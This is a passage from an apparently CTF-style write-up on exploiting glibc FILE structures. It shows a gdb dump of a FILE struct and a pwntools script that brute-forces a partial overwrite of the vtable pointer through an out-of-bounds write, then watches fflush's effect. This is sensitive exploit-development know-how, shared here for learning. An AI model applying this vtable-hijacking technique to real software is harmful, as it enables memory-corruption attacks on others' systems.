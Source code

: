 ```
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7fa6d0db94a0 <_IO_file_jumps>
}
```

We can see that all `_IO_*` pointers are set to NULL and they are used for things like "print stuff from buffer".
So we wanted to find a way to allocate them somehow. 
Of course we could just fill them in with the out of bounds write given to us in the "Trick" option, but since we do not know any pointers in the program memory this is useless for now.

So how do we allocate it? 
Well, we went for looking into glibc code to see which vtable function would be useful for that, but... 
We also wrote a simple script to brute force it by guessing the value to partially overwrite the vtable pointer to see if the vtable function that will be executed by `fflush` will change the pointers stored in the `FILE` struct:

```python
for byte in range(0xa8+8, 0xff, 8):
    with start(timeout=2) as io:
        if args.API:
            io.gdb.execute('continue')
        print("Overwriting last vtable byte with = %#x" % byte)
        write(216, p8(byte))

        flush()

        try:
            exit()
        except EOFError:
            print("CRASHED")
            continue

        must_change = """
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,"""

        if args.API:
            x = io.gdb.execute('fff', to_string=True)
            assert isinstance(x, str)
            print(byte, x)

            if must_change in x:
                io.gdb.quit()  # exit gdb
                continue
            else:
                print("CHANGED!!!")
                asdf  # Crash script to get notified :)
```
